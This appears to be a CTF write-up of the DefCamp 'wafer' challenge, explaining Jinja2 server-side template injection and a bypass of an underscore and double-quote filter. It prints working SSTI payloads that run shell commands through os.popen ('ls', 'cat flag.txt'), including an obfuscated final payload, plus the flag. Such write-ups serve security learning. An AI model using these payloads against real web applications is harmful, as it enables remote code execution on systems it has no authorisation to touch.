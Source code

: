 ```yaml
---
layout: post
title:  "wafer"
author: "DefCamp CTF 21-22 Online (Lucian Ioan Nitescu)"
date:   2022-02-13 14:04:13 +0000
categories: ctf defcamp misc
description: "desc"
---
```


*[Challenge](https://app.cyberedu.ro/challenges/f2417e50-8a4d-11ec-88f8-7968b35ff57f/)*  

My favourite and only completed challenge from this year's DefCamp CTF is an excellent example of using server side template injection (SSTI) to execute arbitrary commands on the target's system, as well as bypassing a filter on underscores.

This will be showing how I altered the payload taken from [here](https://secure-cookie.io/attacks/ssti/) to achieve SSTI; all the concepts are the same. Please check it out!

---  

## Initiation

> Of course I included this protocol in my testing methodology and no vulnerabilities were found.
> 127.0.0.1 1337

You might find that entering certain things, such as numbers, causes your input to be returned to you, and entering nothing/simple arithmetic yields interesting results:  

![](/assets/images/ctf/defcamp/wafer/1.png)

![](/assets/images/ctf/defcamp/wafer/2.png)  

This confirms that we are dealing with SSTI, and it seems that our input was being returned to us because it was being evaluated, with it being evaluated as 'undefined' when it didn't return anything to us.  

---  

## Exploitation

Let's try copying and pasting in this [default SSTI payload](https://secure-cookie.io/attacks/ssti/).
```python
"foo".__class__.__base__.__subclasses__()[182].__init__.__globals__['sys'].modules['os'].popen("ls").read()
```
It doesn't work, as below:  

![](/assets/images/ctf/defcamp/wafer/3.png)  

This suggests that `foo` is being evaluated as a variable rather than as a string, which shouldn't happen. The double quotes are likely being filtered out. Luckily, single quotes aren't.  

![](/assets/images/ctf/defcamp/wafer/4.png)  

It worked, but now it's evaluating `.class` rather than `.__class__`, which isn't a property of string objects. Seemingly, the app is filtering out underscores, and this can be easily confirmed:  

![](/assets/images/ctf/defcamp/wafer/5.png)  

Knowing this, we need to find a way to get underscores into the input somehow via a method on a string. Looking through the results of `dir(str)` in Python reveals `.translate` as a good option, as it takes the ASCII character codes and converts them into their respective ASCII characters. See below:  

```python
'AAclassAA'.translate({65:95})
# returns '__class__'
# as the character codes for 'A' and '\_' are 65 and 95 respectively
```

We can't use the dot operator to access the attributes anymore as the attribute names will need to be strings rather than identifiers in order to insert the underscores into them. Therefore, we can use filters in Jinja2 to achieve the same result: `'foo'.__class__` is functionally the same as `'foo'|attr('__class__')`.  

One more thing to note is that the `182` in the original payload refers to the index of the `warnings.catch_warnings` class in Python in the list returned by `.__subclasses__()`, required because it imports `sys` which is vital for eventual RCE. In this specific environment, the index is at 184 rather than 182, which can be confirmed by pasting in the payload up to that point and counting up to that index.  

Hence, our final payload with everything put into place is:  

```python
((('a'|attr('AAclassAA'.translate({65:95}))|attr('AAbaseAA'.translate({65:95}))|attr('AAsubclassesAA'.translate({65:95}))())[184]|attr('ccinitcc'.translate({99:95}))|attr('AAglobalsAA'.translate({65:95})))['sys']|attr('modules'))['os']|attr('popen')('cat flag.txt')|attr('read')()
```

![](/assets/images/ctf/defcamp/wafer/6.png)  

```
Flag: CTF{3497acdc5cdb795851f334a6c8f401a1e2504b4d05283b6b599e7b6dc42cc200}
```
